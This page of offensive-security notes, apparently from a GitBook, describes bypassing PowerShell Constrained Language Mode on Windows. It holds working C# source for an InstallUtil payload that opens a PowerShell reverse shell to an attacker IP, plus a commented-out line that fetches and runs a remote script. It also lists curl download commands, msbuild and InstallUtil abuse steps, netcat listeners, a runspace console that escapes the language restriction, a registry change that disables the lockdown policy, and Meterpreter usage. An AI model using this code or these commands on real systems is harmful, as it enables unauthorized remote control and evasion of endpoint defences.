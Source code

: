 # CLM Bypass

<details>

<summary>Checking CLM</summary>

```powershell
$ExecutionContext.SessionState.LanguageMode
```

* `FullLanguage` → **No restrictions** (default for admin users).
* `RestrictedLanguage` → **Highly restricted**, only allows basic expressions.
* `ConstrainedLanguage` → **Blocks .NET, COM objects, and Reflection**, while allowing most built-in cmdlets.

</details>

<details>

<summary>[Unprivileged] Bypass Using InstallUtil (bypass_clm_rev_shell.exe)</summary>

<pre class="language-csharp" data-line-numbers><code class="lang-csharp">using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Configuration.Install;

namespace Bypass
{
    class Program
    {
        static void Main(string[] args)
        {
            Console.WriteLine("Hello from main");
        }
    }
    [System.ComponentModel.RunInstaller(true)]
    public class Sample : Installer
    {
<strong>        public override void Uninstall(System.Collections.IDictionary savedState)
</strong>        {
            string rev = @"$client = New-Object System.Net.Sockets.TCPClient('192.168.45.198',53);
                                    $stream = $client.GetStream();
                                    [byte[]]$bytes = 0..65535|%{0};
                                    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
                                    {
	                                    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	                                    try
	                                    {	
		                                    $sendback = (iex $data 2>&#x26;1 | Out-String );
		                                    $sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';
	                                    }
	                                    catch
	                                    {
		                                    $error[0].ToString() + $error[0].InvocationInfo.PositionMessage;
		                                    $sendback2  =  ""ERROR: "" + $error[0].ToString() + ""`n`n"" + ""PS "" + (pwd).Path + '> ';
	                                    }	
	                                    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	                                    $stream.Write($sendbyte,0,$sendbyte.Length);
	                                    $stream.Flush();
                                    };
                                    $client.Close();";

            //String cmd = "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.198/runall.ps1') | powershell -noprofile";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
            PowerShell ps = PowerShell.Create();
            ps.Runspace = rs;
            ps.AddScript(rev);
            ps.Invoke();
            rs.Close();
        }
    }
}

</code></pre>



![](<../.gitbook/assets/image (2) (1).png>)

In package manager console --> `NuGet\Install-Package Core.System.Configuration.Install -Version 1.1.0`

Also, need to add reference `C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll`

Select Release & x64 version and build

### Exploitation

```bash
# Find full filepath of installutil: 
dir \Windows\Microsoft.NET\* /s/b | findstr InstallUtil.exe$
 
# Download CLM bypass reverse shell from Kali:
curl.exe http://192.168.45.198/bypass_clm_rev_shell.exe --output bypass_clm_rev_shell.exe

# Bypass clm with installutil:
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U "bypass_clm_rev_shell.exe"

# Obtain reverse shell
nc -lvp 53
```

</details>

<details>

<summary>[Unprivileged] Bypass Using FullBypass</summary>

In FullBypass.csproj: edit line168 to use [runall.ps1 --> AMSI bypass (1.txt & 2.txt) --> simple\_ps\_revshell.ps1](powershell-shellcode-runner.md#simple-powershell-reverse-shell-with-amsi-bypass-simple_ps_revshell.ps1)

![](<../.gitbook/assets/image (4) (1).png>)

```
# Download to Victim machine
curl.exe http://192.168.45.198/FullBypass.csproj -o FullBypass.csproj

# Build the FullBypass C# project
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe .\FullBypass.csproj

# Obtain reverse shell
nc -lvp 53
```

</details>

<details>

<summary>[Unprivileged] CLM Bypass Using PSByPassCLM</summary>

* Emulate an interactive PowerShell console in a runspace unaffected by language mode
* Need to add reference
  * ```powershell
    C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
    ```
  * ![](<../.gitbook/assets/image (10) (1) (1).png>)

```csharp
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```

</details>

<details>

<summary>[Privileged] CLM Bypass By Removal of the Associated Registry Key</summary>

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -name __PSLockdownPolicy -Value 8
```

</details>

<details>

<summary>Bypass CLM (Metasploit)</summary>

[https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass](https://github.com/beauknowstech/OSEP-Everything/tree/main/CLM%20bypass)

```bash
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```

</details>

